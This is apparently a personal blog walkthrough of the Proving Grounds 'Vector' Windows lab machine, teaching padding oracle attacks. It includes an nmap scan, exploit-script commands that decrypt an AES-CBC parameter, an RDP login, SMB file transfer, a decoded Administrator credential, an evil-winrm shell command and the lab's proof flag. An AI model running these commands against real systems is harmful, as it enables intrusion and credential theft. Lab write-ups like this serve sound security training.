 ```yaml
---

categories: [ Proving Grounds, Practice ]
tags: [ Public Exploit, PrivEsc, Windows, RDP, Padding_Oracle_Attack, cryptography]
media_subpath: /assets/images/
image:
  path: "Pasted image 20240701094411.png"
  width: "1200"
  height: "630"
  alt: Windows Hard Level Machine
description: Proving Ground Practice Hard Level Machine ! You mainly gona learn about Cryptography and Padding Oracle Attack.
---
```


## Port Scan Results ⤵️

```bash
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Vector]
└─$ sudo nmap -sC -sV -p- -vv -T4 -oN Nmap_Results.txt -Pn 192.168.155.119
Nmap scan report for 192.168.155.119
Host is up, received user-set (0.093s latency).
Scanned at 2024-07-01 08:39:41 IST for 160s
Not shown: 65527 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 125 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  syn-ack ttl 125 Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
2290/tcp open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-title: Site doesnt have a title (text/html; charset=utf-8).
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
|_ssl-date: 2024-07-01T03:12:20+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VECTOR
|   NetBIOS_Domain_Name: VECTOR
|   NetBIOS_Computer_Name: VECTOR
|   DNS_Domain_Name: vector
|   DNS_Computer_Name: vector
|   Product_Version: 10.0.17763
|_  System_Time: 2024-07-01T03:11:40+00:00
| ssl-cert: Subject: commonName=vector
| Issuer: commonName=vector
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-03-22T16:36:29
| Not valid after:  2024-09-21T16:36:29
| MD5:   3a68:bca7:93da:d9d9:0748:1a1d:b6a1:9e0c
| SHA-1: 5ae7:a6d8:afd7:50a4:e1bf:d7b6:21c7:23b9:7aac:a79a
| -----BEGIN CERTIFICATE-----
| MIIC0DCCAbigAwIBAgIQV3xP7PEZnK1OsuzHBkam8TANBgkqhkiG9w0BAQsFADAR
| MQ8wDQYDVQQDEwZ2ZWN0b3IwHhcNMjQwMzIyMTYzNjI5WhcNMjQwOTIxMTYzNjI5
| WjARMQ8wDQYDVQQDEwZ2ZWN0b3IwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEK
| AoIBAQDGdPie+1SGnkr6ZU78dpEEWL5oHKrXOGPLy18cTze1sFVbaI5/VOZMVkZv
| k8WGIuuKtqe+B8P2I7p5YdpN06CUnEtLGHik2h9vsiXpWShLMrzt5wkSbr9mJ7HT
| UunqmHwYx+d83y/BIdh+VHnXQyLS6OG2xLhiTM8LJVUvPnU+RJwPSYlRj7QL/y4Y
| JcuLkj/81wRINh5lErAWMBeSiKna5C/54dwhlfsM5pTGAZGetoUW+bArV6wvXlcQ
| pDj5yZSpEoiA/kZW0zTUuupNmQnoB7erBQcDk9foQJozHkRTp3C1dkHncBDjltYo
| f3fwSNtAKF3bH0nT1t9nRezBywQtAgMBAAGjJDAiMBMGA1UdJQQMMAoGCCsGAQUF
| BwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsFAAOCAQEADAuVG4npJs4vv/ww
| e0MJ3hkFI+1hR9k0u+jnEt3cCMuDp5zarsnWIsn0KCvGXlSl64+4pOuKEH0/XrJm
| ShK+5F6tBIyLyV2ZsZ1OjxtJ6y5DRq6Qp9BLTVZvEfVbEsiRcBD6Y3yL4WbjfMfu
| m1KejISkCPTDi9l+4q6Oi8VQBmElJxkZBzpKnbTyZK/QYohT5HdfpWDywmeSOOSM
| r6tlkV9wKa6IdloPhhEaL017MaMCR4ucraeew+dfH8yhww6LbCZwY6rVKlWgQdEo
| 7ZgbPA6/QYu06GAIYcJkRTy6DxdcMu2KVjLIR2M34FEUDsGQXFL6jqnXBfbByuNA
| utpBTw==
|_-----END CERTIFICATE-----
5985/tcp open  http          syn-ack ttl 125 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 8058/tcp): CLEAN (Timeout)
|   Check 2 (port 11018/tcp): CLEAN (Timeout)
|   Check 3 (port 63046/udp): CLEAN (Timeout)
|   Check 4 (port 31163/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2024-07-01T03:11:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```
{: .nolineno}
## Web Enumeration ⤵️


I checked port 2290 and I found this page indicating a missing parameter 🔻

![Image](Pasted%20image%2020240701093356.png)
_Specifies me about c parameter_
While giving the parameter I got this 0 value so I checked its source code 🔻
![Image](Pasted%20image%2020240701093457.png)
_While using c parameter I get 0 as default value_
![Image](Pasted%20image%2020240701093514.png)
_Source code of this page_

Now I am dealing with <span style="color:#f04276">AES-256-CBC-PKCS7</span> cryptography so I need to research further as I searched related to its exploit I got this vulnerability highlighted 🔻

![Image](Pasted%20image%2020240701093722.png)
_AES-256-CBC-PKCS7 key is related to Oracle Attack_

I found this link interestingly to extract the value out of this cypher text.

### Padding Oracle Attack

If you have an cyphertext (encrypted text) using AES-256-CBC-PKCS7 (or DES) and an oracle you can run this attack. Lots more details here: [https://github.com/mpgn/Padding-oracle-attack](https://github.com/mpgn/Padding-oracle-attack)

```bash
python3 exploit.py -c '4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488' -l '8' --host target.ip:2290 -u '/?c=' -v --error '0'
```
{: .nolineno}

Another example site 🔻

https://github.com/halloweeks/AES-256-CBC

```bash
python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.155.119:2290 -u /?c= -v --error '<span id="MyLabel">0</span>'
```
{: .nolineno}

![Image](Pasted%20image%2020240701090600.png)
![Image](Pasted%20image%2020240701090450.png)
_Exploit gives me the decrypted password from that AES key_

I got the password now so lets see what it can perform 🔻

![Image](Pasted%20image%2020240701094024.png)
_Got connection with victor creds, and checked through netexec Tool_

I connected the rdp connection with <mark style="background: #FF5582A6;">remmina</mark> Tool.

![Image](Pasted%20image%2020240701094125.png)
_RDP connection using remmina Tool_

To copy this `rar` file to the attacker machine I used `smb` server 🔻

![Image](Pasted%20image%2020240701093030.png)
_Sharing of files using impacket-smbshare Tool_

On Attacker Machine 🔻

![Image](Pasted%20image%2020240701093212.png)
_Coping file to the sharing location_

I got the copied file on my attacker machine so lets extract it 🔻

![Image](Pasted%20image%2020240701092749.png)
_Extract the rar file without password_

It requires a password .


![Image](Pasted%20image%2020240701092710.png)
_Extracted the rar file with password_

I used the password of victor to decrypt this rar file .

```bash

┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Vector]
└─$ cat backup.txt 
QWRtaW5pc3RyYXRvcjpFdmVyeXdh........hcDM3NQ==                                                                                                                              
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Vector]
└─$ echo QWRtaW5pc3RyYXRvcjpFdmVyeXdheUxhYmVsV3JhcDM3NQ== | base64 -d
Administrator:<PASSWORD>                                        
```
{: .nolineno}

![Image](Pasted%20image%2020240701092829.png)
_netexec Tool connection on winrm service_

```powershell
┌──(kali🔥kali)-[~/Downloads/Proving_Ground/Practice/Vector]
└─$ evil-winrm -i 192.168.155.119 -u Administrator -p '<PASSWORD>'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
t*Evil-WinRM* PS C:\Users\Administrator> tree /f /a
Folder PATH listing
Volume serial number is 7ADA-B29F
C:.
|   stop
|
+---3D Objects
+---Contacts
+---Desktop
|       proof.txt
|
+---Documents
+---Downloads
+---Favorites
|   |   Bing.url
|   |
|   \---Links
+---Links
|       Desktop.lnk
|       Downloads.lnk
|
+---Music
+---Pictures
+---Saved Games
+---Searches
\---Videos
*Evil-WinRM* PS C:\Users\Administrator> cat Desktop\proof.txt
28ccdd3a848dd67f089e494a55149940
*Evil-WinRM* PS C:\Users\Administrator> 
```
{: .nolineno}


I am Administrator Now !!












> If you have any questions or suggestions, please leave a comment below.
> Thank You ! 
{: .prompt-tip }